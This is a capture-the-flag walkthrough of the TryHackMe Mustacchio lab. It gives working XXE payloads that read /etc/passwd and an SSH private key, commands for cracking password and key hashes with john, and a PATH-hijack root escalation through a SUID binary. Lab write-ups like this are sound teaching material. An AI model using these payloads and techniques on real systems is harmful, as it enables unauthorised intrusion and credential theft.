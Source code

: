 ## TryHackMe Mustacchio Walkthrough

I used the TryHackMe AttackBox to work through the [Mustacchio](https://tryhackme.com/room/mustacchio) room.

Once the room and Mustacchio machine booted up, I ran the following `nmap` scan of the first 10,000 ports: `nmap -sV --script default,vuln,http-enum -p 1-10000 10.10.166.116`.  Results:

```
Nmap scan report for ip-10-10-166-116.eu-west-1.compute.internal (10.10.166.116)
Host is up (0.00072s latency).
Not shown: 9997 filtered ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
|_  256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (EdDSA)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=ip-10-10-166-116.eu-west-1.compute.internal
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://ip-10-10-166-116.eu-west-1.compute.internal/contact.html
|     Form id: fname
|_    Form action: contact.html
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|   /robots.txt: Robots file
|   /custom/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|_  /images/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
| http-internal-ip-disclosure: 
|_  Internal IP Leaked: 127.0.0.1
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-title: Mustacchio | Home
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=ip-10-10-166-116.eu-west-1.compute.internal
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://ip-10-10-166-116.eu-west-1.compute.internal:8765/
|     Form id: 
|_    Form action: auth/login.php
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-title: Mustacchio | Login
MAC Address: 02:96:92:55:61:33 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Ports 22, 80, and 8765 were open.  Nmap indicated one disallowed entry in the `robots.txt` file, but it was just `/`.

There was also a `/custom/` directory on port 80, and there was a file `/custom/js/users.bak`.  I downloaded the file, and ran `file users.bak`, which gave me `SQLite 3.x database, last written using SQLite version 3034001`.  Turns out its a sqlite3 file.  I opened it using `sqlite3 users.bak`, ran `.tables`, then `select * from users;` on the users table I found, revealing one entry with a password hash for an `admin` user.  

![](/img/tryhackme/mustacchio/mustacchio_users_bak.png)

I put this hash into a file `hash.txt` and tried to crack it with `john` using the command `john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt`, and I got the password.

![](/img/tryhackme/mustacchio/mustacchio_john_crack_users_bak.png)

I tried to ssh with this user but got a `Permission denied (publickey)` error, so these weren't SSH credentials.  I did discover another HTTP service open on port 8765, which had a login page.  I tried the credentials there and successfully logged in.

This took me to an admin panel with a single input:

![](/img/tryhackme/mustacchio/mustacchio_admin_panel.png)

Looking through the source code revealed a script with a `/auth/dontforget.bak` file, as well as a comment to Barry about his SSH key:

![](/img/tryhackme/mustacchio/mustacchio_admin_source_code.png)

The `dontforget.bak` file turned out to contain XML code:

![](/img/tryhackme/mustacchio/mustacchio_dontforget.png)

Going back to the site, entering some text in the input and clicking Submit gives a result at the bottom with name, author, and comment fields:

![](/img/tryhackme/mustacchio/mustacchio_admin_panel_result.png)

Clicking Submit with nothing in the text input gives an alert message telling us to put in XML code:

![](/img/tryhackme/mustacchio/mustacchio_admin_panel_blank.png)

Inputing the XML code from `dontforget.bak` gives a result with a filled in name, author, and comment:

![](/img/tryhackme/mustacchio/mustacchio_admin_panel_xml.png)

This field looked worth testing for XXE vulnerabilities.  Using the following payload displayed the contents of the server's `/etc/passwd` file:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "/etc/passwd"> ]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>
```

![](/img/tryhackme/mustacchio/mustacchio_admin_panel_xxe_etc_passwd.png)

Looks like from this file we see there are users joe and barry, and I tried modifying the above payload to see if we can get a result for a `user.txt` file.  Turns out that replacing `/etc/passwd` with `/home/barry/user.txt` gives us the first flag.

![](/img/tryhackme/mustacchio/mustacchio_user_flag.png)

Given the source code comment earlier about Barry's SSH key, I tried to get Barry's SSH key at `/home/barry/.ssh/id_rsa` and was able to retrieve it.  I base64 encoded it first, to maintain the proper formatting, with the following payload:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/home/barry/.ssh/id_rsa"> ]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>
```

I then base64 decoded the string, and saved it to a file `id_rsa` and updated its permissions with `chmod 600 id_rsa`.  The key required a passphrase however, so I used the `/opt/john/ssh2john.py` program to get a hash from the SSH key, running the command `/opt/john/ssh2john.py id_rsa > ssh_hash.txt`. I then ran `john ssh_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt` to crack the hash, giving me the key password:

![](/img/tryhackme/mustacchio/mustacchio_ssh_key_passphrase_john.png)

Using the found ssh key and passphrase got me logged in as `barry` in `/home/barry`.  I already saw the flag in `user.txt`.

After looking around in barry's and joe's home directories, I found a `live_log` program in `/home/joe/` that was suid as root.  After running `strings live_log`, I found the string `tail -f /var/log/nginx/access.log`, looks like this program runs `tail`.  I figured I could create my own version of `tail` in `/tmp` and update `PATH` to use my version of `tail` as `root` when running `live_log`.  I made a program `/tmp/tail` with the following code:

```
#!/bin/bash

/bin/bash
```

I then updated its permissions with `chmod +x /tmp/tail`, updated `PATH` to have `/tmp` first using the command `export PATH=/tmp:$PATH`, then ran the `live_log` program.  This escalated my privileges to root, and from here I was able to find and view the root flag:

![](/img/tryhackme/mustacchio/mustacchio_priv_esc.png)



